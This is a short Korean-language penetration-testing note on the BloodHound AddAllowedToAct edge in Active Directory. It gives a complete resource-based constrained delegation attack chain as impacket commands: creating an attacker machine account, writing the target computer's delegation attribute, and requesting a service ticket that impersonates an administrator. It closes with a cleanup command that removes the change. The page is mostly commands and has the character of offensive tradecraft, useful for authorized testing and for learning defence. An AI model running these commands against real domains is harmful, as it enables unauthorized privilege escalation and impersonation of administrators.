


# AddAllowedToAct

* 대상의 `msDS-AllowedToActOnBehalfOfOtherIdentity` 특성을 수정할 수 있는 권한. 이를 통해 RBCD 공격을 진행할 수 있게 된다.
* 블러드하운드 Edge

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## 악용 - 컴퓨터

공격자의 유저가 컴퓨터를 대상으로 AddAllowedToAct 권한을 가지고 있다면, 대상 컴퓨터의 `msDS-AllowedToActOnBehalfOfOtherIdentity` 를 변경해 RBCD 공격을 진행한다.

```
addcomputer.py -method LDAPS -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-host $DomainController -domain-netbios $DOMAIN 'domain/user:password

rbcd.py -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'TargetComputer' -action 'write' 'domain/user:password'

getST.py -spn 'cifs/targetcomputer.testlab.local' -impersonate 'admin' 'domain/attackersystem$:Summer2018!'
```

## 유의점

* 대상의 `msDS-AllowedToActOnBehalfOfOtherIdentity` 특성을 수정하기 때문에 공격자 머신 계정을 해당 특성에서 지워 해당 특성을 원래 값으로 되돌려놓는다.

```
rbcd.py -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'TargetComputer' -action 'remove' 'domain/user:password'
```

